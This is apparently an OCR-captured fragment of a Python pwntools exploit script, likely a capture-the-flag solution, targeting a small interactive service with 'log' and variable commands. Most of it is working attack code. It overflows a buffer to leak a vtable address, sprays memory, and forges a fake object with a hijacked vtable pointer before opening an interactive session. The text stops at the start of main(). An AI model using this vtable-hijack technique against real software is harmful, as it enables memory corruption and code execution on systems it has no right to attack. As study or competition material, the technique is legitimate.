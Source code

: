 ```
    r.recvuntil(b">")
    r.sendline(b"log")

    new_var(r, b"D", b"ciao")

    r.recvuntil(b">")
    if(addr == None):
        r.sendline(b"A"*23 + b"B"*8 + b"\x00"*8)
    else:
        r.sendline(b"A"*23 + b"B"*8 + b"\42"*8  +  p64(addr))

    r.recvuntil(b">")
    r.sendline(b"$(($C+$D))")

    r.recvuntil(b": ")
    addr = int(r.recv(6)[::-1].hex(), 16)

    r.recvline()

    print("VTABLE addr: ", hex(addr))

    return addr


def sprayer(r, addr, content):
    r.recvuntil(b">")
    r.sendline(b"log")

    new_var(r, b"E", b"0")

    r.recvuntil(b">")
    r.sendline(b"log")

    new_var(r, b"F", content)

    r.recvuntil(b">")
    if(addr == None):
        r.sendline(b"A"*23 + b"B"*8 + b"\x00"*8)
    else:
        r.sendline(b"A"*23 + b"B"*8 + b"\x00"*8 + p64(addr))


    r.recvuntil(b">")
    r.sendline(b"$(($E+$F))")
    return int(r.recvline().strip())

def fake_object(r, vtable_addr):
    r.recvuntil(b">")
    r.sendline(b"log")

    new_var(r, b"G", b"ciao")

    r.recvuntil(b">")
    r.sendline(b"A"*23 + p64(vtable_addr))

    r.recvuntil(b">")
    r.sendline(b"$G")
    r.interactive()


def main():
    r = conn()

```